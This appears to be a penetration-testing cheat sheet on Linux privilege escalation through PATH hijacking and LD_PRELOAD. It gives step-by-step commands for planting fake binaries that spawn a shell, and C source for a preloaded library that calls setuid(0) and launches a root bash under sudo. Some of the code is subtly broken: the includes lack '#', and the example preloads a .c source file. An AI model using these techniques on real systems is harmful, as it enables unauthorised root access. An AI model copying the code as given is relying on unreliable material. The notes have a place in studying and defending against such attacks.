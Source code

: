 # General
```
cat /etc/profile 
cat /etc/bashrc 
cat ~/.bash_profile 
cat ~/.bashrc 
cat ~/.bash_logout 
env set 
```

# $PATH Variable

## Background
- PATH variable is an environment variable that specifies where executable programs are located. 
- If you type in $PATH in a Unix machine, it will output the directories where various executables are stored. 
- System tries to identify programs in the file locations of the variable going from left to right.

## Attack Vector

### Programs That Redefine PATH
1. Identify any programs that redefined the PATH variable as part of execution or identify where the default PATH variable points to.  
2. Evaluate the permissions of the folder locations in the PATH variable to see if we have write access to any of them. 
3. If we have write access to any of the folders we can delete the legitimate binary in the folder location and replace it with a malicious one that is executed by a program or Cron job.

### Programs That Don't Use Full Path For Commands (Vulnhub:init)
- Commonly a script uses the name of the command (cat) instead of the full path to the command (/usr/bin/cat) within a program.  If this occurs, we can:
  - Edit the PATH variable to include a new location to check for the command (cat) which executes a shell.  Note: Our current user would need to have the ability to execute the program as we can only change the PATH for the current user (not the entire system).
  1. Redefine the path by including a directory of our choice at the beginning (furthest left) of the check path.
  ```
  PATH=/new/directory:$PATH
  ```
  2. Navigate to the /new/directory and add in a custom shell program with the same name as the command (cat) called in the vulnerable program.
  ```
  echo "/bin/bash" > [shell command]
  ```
  3. Make the custom shell program executable by all.
  ```
  chmod 777 [shell command]
  ```
  4. Execute the vulnerable program to have it execute the command (cat) which will then search in our /new/directory and execute the same-named shell command to serve a shell under the user that is set earlier in the vulnerable program.
  - Display the PATH variable paths and see if we have access to delete the command in the PATH and replace it with our shell command.  Note: Our current user wouldn't be the one executing this vulnerable program.  It would likely be executed via a cronjob of the elevated user or through SUDO.
  1. Understand what locations PATH variable checks.
  ```
  echo $PATH
  ```
  2. Navigate to each PATH going from left to right to see where the command (cat) is located first.
  3. See if we can change / delete the command (cat) with our permissions / upload a replacement shell program named the same as the command (cat).
  ```
  echo "/bin/bash" > [shell commmand]
  ```
  4. Make sure the custom shell command is executable by all.
  ```
  chmod 777 [custom shell command]
  ```
  5. Wait for or sudo execute the vulnerable program to thereby execute our shell command.

# $LD_PRELOAD Variable

## Background
- LD_PRELOAD is an environment variable that can be set to point to any shared libraries specified. The dynamic linker on the Unix system will load these shared libraries before other libraries. 
- If we have SUDO access to a program that needs to load libraries for operation and also have access to the LD_PRELOAD variable, we can force the program to load and execute our malicious libraries first before the legitimate ones.

## Attack Vector
1. Create a malicious program 
```
include <stdio.h> 
include <sys/types.h>  
include <stdlib.h> 

void _init()  
{ unsetenv("LD_PRELOAD"); 
  setgid(0); 
  setuid(0);  
  system("/bin/bash"); 
} 
```

2. Compile programm if necessary. 
3. Load the new library executable first when running a program we have sudo privileges to and we get root. 
```
Sudo LD_PRELOAD=[path to malicious program] [normal sudo program]
```
```
Sudo LD_PRELOAD=/tmp/bad.c find
```
